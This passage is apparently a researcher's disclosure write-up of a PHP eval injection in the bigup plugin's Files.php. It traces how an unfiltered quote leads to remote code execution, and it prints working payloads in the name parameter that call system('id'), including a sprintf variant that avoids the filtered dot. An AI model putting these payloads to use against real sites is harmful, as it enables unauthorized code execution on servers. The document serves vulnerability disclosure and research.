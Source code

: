 ![500](./img/500.png)

From the docker logs, we can read:

![500_log](./img/500_log.png)

Here we see that the `'` is not filtered, so the context is broken and the call to *eval* returns an error.

Finally, we can add a real payload to control the contents of the string between the square brackets.

The payload payload `HELLO[AB'.strval(5+5).'CD]` lead to this log line:
```bash
Undefined array key "AB10CD" in ... plugins-dist/bigup/inc/Bigup/Files.php(276) : eval()'d code on line 1
```

The rce is now trivial, with the following payload:

```php
name="HELLO[AB'.system('id').die().'CD]"
```

![rce](./img/rce.png)

![win2](./img/win2.png)

My first reaction was like

![lalu](./img/lalu.png)

But in the end he confirmed that he didn't have it in his notes!

If you're curious, this was related to my [teasing tweet](https://x.com/Vozec1/status/1822647021733281895) from a few weeks ago, hashing the proof that I had this exploit at this time, without leaking sensitive information (kindly suggested to do so by Laluka to keep track & proofs).

```php
[~/Desktop]$ echo -ne "name=\"RCE['.system('id').die().']\";" | md5sum
9fd0828be2a9d90e89e226f1fcd6d5d9  -
```

## Additional note:
The vulnerability can also be triggered in the first part of the name parameter:
```php
name="RCE'-system('id')-'[ABCD]"
```

The dot is filtered, but you can use `sprintf` to call the `die` function after the `system` to avoid an error in logs:

```php
name="RCE'-sprintf(system('id'),die())-'[ABCD]"
```

![isok](./img/isok.png)
